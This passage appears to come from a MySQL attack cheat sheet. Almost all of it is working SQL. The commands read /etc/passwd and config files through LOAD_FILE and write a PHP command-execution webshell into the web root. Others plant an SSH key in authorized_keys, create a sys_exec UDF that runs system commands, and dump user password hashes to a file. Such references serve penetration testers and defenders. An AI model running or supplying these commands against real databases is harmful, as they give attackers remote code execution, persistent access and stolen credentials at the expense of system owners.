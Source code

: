 
## Advanced Techniques

### File System Access

#### Reading Files (if FILE privilege exists)
```sql
-- Read local files
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE('/etc/hosts');
SELECT LOAD_FILE('/var/log/mysql/error.log');

-- Read configuration files
SELECT LOAD_FILE('/etc/mysql/mysql.conf.d/mysqld.cnf');
SELECT LOAD_FILE('/etc/my.cnf');
```

#### Writing Files (if FILE privilege exists)
```sql
-- Write to files
SELECT 'PHP webshell content' INTO OUTFILE '/var/www/html/shell.php';

-- Create webshell
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/cmd.php';

-- Write SSH keys
SELECT 'ssh-rsa AAAAB3...' INTO OUTFILE '/home/user/.ssh/authorized_keys';
```

### User Defined Functions (UDF)

#### System Command Execution
```sql
-- Check for UDF functions
SELECT * FROM mysql.func;

-- Create UDF for command execution (if privileges allow)
CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so';

-- Execute system commands
SELECT sys_exec('whoami');
SELECT sys_exec('id');
```

### Information Disclosure

#### Hash Extraction
```sql
-- Extract password hashes
SELECT User, authentication_string FROM mysql.user;

-- MySQL 5.x hash format
SELECT User, Password FROM mysql.user;

-- Extract to file
SELECT User, authentication_string FROM mysql.user INTO OUTFILE '/tmp/hashes.txt';
```
